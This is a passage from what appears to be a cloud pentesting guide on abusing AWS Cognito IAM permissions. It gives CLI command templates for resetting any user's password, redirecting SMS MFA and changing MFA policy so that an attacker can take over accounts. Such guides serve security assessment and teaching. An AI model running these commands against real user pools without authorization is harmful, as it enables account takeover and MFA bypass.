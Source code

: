 This permission allows to login with the [**method ADMIN\_USER\_PASSWORD\_AUTH**](../aws-services/aws-cognito-enum/cognito-user-pools.md#admin\_no\_srp\_auth-and-admin\_user\_password\_auth)**.** For more information follow the link.

### `cognito-idp:AdminSetUserPassword`

This permission would allow an attacker to **change the password of any user**, making him able to impersonate any user (that doesn't have MFA enabled).

```bash
aws cognito-idp admin-set-user-password \
    --user-pool-id <value> \
    --username <value> \
    --password <value> \
    --permanent
```

**Potential Impact:** Direct privesc to potentially any user, so access to all the groups each user is member of and access to the Identity Pool authenticated IAM role.

### `cognito-idp:AdminSetUserSettings` | `cognito-idp:SetUserMFAPreference` | `cognito-idp:SetUserPoolMfaConfig` | `cognito-idp:UpdateUserPool`

**AdminSetUserSettings**: An attacker could potentially abuse this permission to set a mobile phone under his control as **SMS MFA of a user**.

```bash
aws cognito-idp admin-set-user-settings \
    --user-pool-id <value> \
    --username <value> \
    --mfa-options <value>
```

**SetUserMFAPreference:** Similar to the previous one this permission can be used to set MFA preferences of a user to bypass the MFA protection.

```bash
aws cognito-idp admin-set-user-mfa-preference \
    [--sms-mfa-settings <value>] \
    [--software-token-mfa-settings <value>] \
    --username <value> \
    --user-pool-id <value>
```

**SetUserPoolMfaConfig**: Similar to the previous one this permission can be used to set MFA preferences of a user pool to bypass the MFA protection.

```bash
aws cognito-idp set-user-pool-mfa-config \
    --user-pool-id <value> \
    [--sms-mfa-configuration <value>] \
    [--software-token-mfa-configuration <value>] \
    [--mfa-configuration <value>]
```

**UpdateUserPool:** It's also possible to update the user pool to change the MFA policy. [Check cli here](https://docs.aws.amazon.com/cli/latest/reference/cognito-idp/update-user-pool.html).
